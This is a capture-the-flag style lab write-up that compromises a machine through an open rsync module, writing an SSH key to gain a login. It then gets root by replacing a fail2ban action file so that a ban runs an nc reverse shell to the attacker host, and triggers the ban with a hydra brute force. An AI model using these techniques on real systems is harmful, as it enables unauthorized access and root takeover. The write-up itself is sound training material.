 # Fail

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:08 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync
```

Rsync was the only thing available.

### Rsync Enum --> SSH

Hacktricks has a whole page for RSync we can follow:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync" %}

We can first do further enumeration on the modules available:

```
$ nmap -sV --script "rsync-list-modules" -p 873 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:09 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
```

`fox` might be the user present on the machine. We can list the files present:

```
$ rsync -av --list-only rsync://fox@192.168.243.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 22:21:59 .
lrwxrwxrwx              9 2020/12/04 04:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 12:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 12:12:36 .bashrc
-rw-r--r--            807 2019/04/18 12:12:36 .profile
```

What we do is create a new `.ssh` directory and place our public key within it:

```bash
mkdir .ssh
chmod 700 .ssh
cp ~/.ssh/id_rsa.pub .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```

Then, transfer it to the machine:

```
$ rsync -av .ssh rsync://fox@192.168.243.126/fox
sending incremental file list
.ssh/
.ssh/authorized_keys

sent 534 bytes  received 67 bytes  240.40 bytes/sec
total size is 391  speedup is 0.65
```

Then, we can `ssh` in:

<figure><img src="../../../.gitbook/assets/image (3478).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Fail2ban --> Root

The user is able to edit the `fail2ban` configuration files to execute commands as `root` since `fox` is part of that group.&#x20;

We just need to create a malicious `iptables-multiport.conf` file like this:

```
# Fail2Ban configuration file
#
# Author: Cyril Jaquier
# Modified by Yaroslav Halchenko for multiport banning
#

[INCLUDES]

before = iptables-common.conf

[Definition]

# Option:  actionstart
# Notes.:  command executed once at the start of Fail2Ban.
# Values:  CMD
#
actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

# Option:  actionstop
# Notes.:  command executed once at the end of Fail2Ban
# Values:  CMD
#
actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

# Option:  actioncheck
# Notes.:  command executed once before each actionban command
# Values:  CMD
#
actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'

# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = nc 192.168.45.231 80 -e /bin/bash
# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
[Init]

```

Afterwards, replace the actual file with our malicious one, where the `actionban` has been edited.&#x20;

```
fox@fail:/etc/fail2ban/action.d$ rm iptables-multiport.conf
fox@fail:/etc/fail2ban/action.d$ wget 192.168.45.231:21/iptables-multiport.conf
--2023-07-17 09:23:58--  http://192.168.45.231:21/iptables-multiport.conf
Connecting to 192.168.45.231:21... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1401 (1.4K) [application/octet-stream]
Saving to: ‘iptables-multiport.conf’

iptables-multiport.conf 100%[============================>]   1.37K  --.-KB/s    in 0s      

2023-07-17 09:23:59 (183 MB/s) - ‘iptables-multiport.conf’ saved [1401/1401]
```

To trigger it, just generate a lot of `ssh` tries with `hydra`:

```
$ hydra -l fox -P /usr/share/wordlists/rockyou.txt 192.168.243.126 ssh
```

We would then get a reverse shell back as `root`:

<figure><img src="../../../.gitbook/assets/image (3477).png" alt=""><figcaption></figcaption></figure>
